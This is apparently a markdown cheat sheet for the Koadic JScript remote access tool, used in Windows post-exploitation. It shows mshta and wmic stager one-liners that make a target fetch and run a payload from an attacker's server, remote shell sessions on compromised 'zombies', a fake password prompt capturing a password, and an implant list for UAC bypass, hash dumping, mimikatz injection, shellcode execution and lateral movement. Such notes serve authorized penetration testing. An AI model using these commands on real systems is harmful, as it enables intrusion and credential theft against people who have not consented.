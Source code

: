 # Koadic C3 COM Command & Control - JScript RAT

> Windows post-exploitation rootkit similar to other penetration testing tools such as Meterpreter and Powershell Empire.

## Installation

```powershell
git clone https://github.com/zerosum0x0/koadic
git submodule init
git submodule update
pip2.7 install -r requirements.txt --user
python2.7 koadic
```

## Set a listener

```powershell
use stager/js/mshta
set LHOST 192.168.1.19
set SRVPORT 4444
run

[>] mshta http://192.168.1.19:4444/6DX7f
```

```powershell
use stager/js/wmic
set LHOST 192.168.1.19
set SRVPORT 4444
run

[>] wmic os get /FORMAT:"http://192.168.1.19:4444/lQGx5.xsl"
```

### Stagers

Stagers hook target zombies and allow you to use implants.

Module | Description
--------|------------
stager/js/mshta | serves payloads using MSHTA.exe HTML Applications
stager/js/regsvr | serves payloads using regsvr32.exe COM+ scriptlets
stager/js/wmic | serves payloads using WMIC XSL
stager/js/rundll32_js | serves payloads using rundll32.exe
stager/js/disk | serves payloads using files on disk



## List zombies and interact with them

```powershell
(koadic: sta/js/wmic)$ zombies

        ID   IP              STATUS  LAST SEEN
        ---  ---------       ------- ------------
        0    192.168.1.30    Alive   2018-10-04 17:07:12

(koadic: sta/js/wmic)$ zombies 0
        ID:                     0
        Status:                 Alive
        First Seen:             2018-10-04 17:05:00
        Last Seen:              2018-10-04 17:14:42
        IP:                     192.168.1.30
        User:                   DESKTOP-68URA9U\CrashWin
        [...]
        Elevated:               No
        [...]
```

Interact with `zombies zombie_id`, get a shell with `cmdshell zombie_id`.

```powershell
[koadic: ZOMBIE 0 (192.168.1.30) - C:\Users\CrashWin]> whoami
[*] Zombie 0: Job 1 (implant/manage/exec_cmd) created.
[+] Zombie 0: Job 1 (implant/manage/exec_cmd) completed.
Result for `cd C:\Users\CrashWin & whoami`:
desktop-68ura9u\crashwin
```

## Use an implant

Select an implant with `use module`, then fill the `info` with `set INFO value`, finally start the module with `run`.

```powershell
(koadic: sta/js/mshta)$ use implant/phish/password_box
(koadic: imp/phi/password_box)$ set ZOMBIE 1
(koadic: imp/phi/password_box)$ run
Input contents:
MyStrongPassword123!
```

### Implants

Implants start jobs on zombies.

Module | Description
--------|------------
implant/elevate/bypassuac_eventvwr | Uses enigma0x3's eventvwr.exe exploit to bypass UAC on Windows 7, 8, and 10.
implant/elevate/bypassuac_sdclt | Uses enigma0x3's sdclt.exe exploit to bypass UAC on Windows 10.
implant/fun/zombie | Maxes volume and opens The Cranberries YouTube in a hidden window.
implant/fun/voice | Plays a message over text-to-speech.
implant/gather/clipboard | Retrieves the current content of the user clipboard.
implant/gather/enum_domain_info | Retrieve information about the Windows domain.
implant/gather/hashdump_sam | Retrieves hashed passwords from the SAM hive.
implant/gather/hashdump_dc | Domain controller hashes from the NTDS.dit file.
implant/gather/user_hunter | Locate users logged on to domain computers (using Dynamic Wrapper X).
implant/inject/mimikatz_dynwrapx | Injects a reflective-loaded DLL to run powerkatz.dll (using Dynamic Wrapper X).
implant/inject/mimikatz_dotnet2js | Injects a reflective-loaded DLL to run powerkatz.dll (@tirannido DotNetToJS).
implant/inject/shellcode_excel | Runs arbitrary shellcode payload (if Excel is installed).
implant/manage/enable_rdesktop | Enables remote desktop on the target.
implant/manage/exec_cmd | Run an arbitrary command on the target, and optionally receive the output.
implant/phishing/password_box | Prompt a user to enter their password.
implant/pivot/stage_wmi | Hook a zombie on another machine using WMI.
implant/pivot/exec_psexec | Run a command on another machine using psexec from sysinternals.
implant/scan/tcp | Uses HTTP to scan open TCP ports on the target zombie LAN.
implant/utils/download_file | Downloads a file from the target zombie.
implant/utils/multi_module | Run a number of implants in succession.
implant/utils/upload_file | Uploads a file from the listening server to the target zombies.

## Thanks

- [Pentestlab - koadic](https://pentestlab.blog/tag/koadic/)
- [zerosum0x0 Github - koadic](https://github.com/zerosum0x0/koadic)